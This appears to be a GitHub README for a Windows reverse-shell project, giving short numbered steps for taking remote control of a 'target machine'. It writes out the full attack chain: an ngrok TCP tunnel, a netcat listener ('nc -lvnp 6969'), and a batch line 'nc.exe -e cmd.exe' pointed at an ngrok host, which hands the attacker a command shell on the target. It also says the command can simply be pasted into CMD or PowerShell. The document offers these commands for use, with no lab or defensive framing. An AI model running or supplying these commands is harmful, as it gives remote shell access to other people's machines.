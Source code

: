 # Simple-Reverse-Shell-Windows
Simple reverse shell Windows CMD with Netcat and Ngrok

# How To Use
  For example:
  1. run "ngrok tcp 6969"
  2. run netcat "nc -lvnp 6969"
  3. edit RShell.bat and put your ngrok ip and port, should be like this "....\\nc.exe -e cmd.exe 0.tcp.ngrok.io 27384"
  4. Then run RShell.bat on your target machine. 


     OR YOU CAN JUST COPY THE COMMAND AND PASTE ON CMD/POWERSHELL :)
     

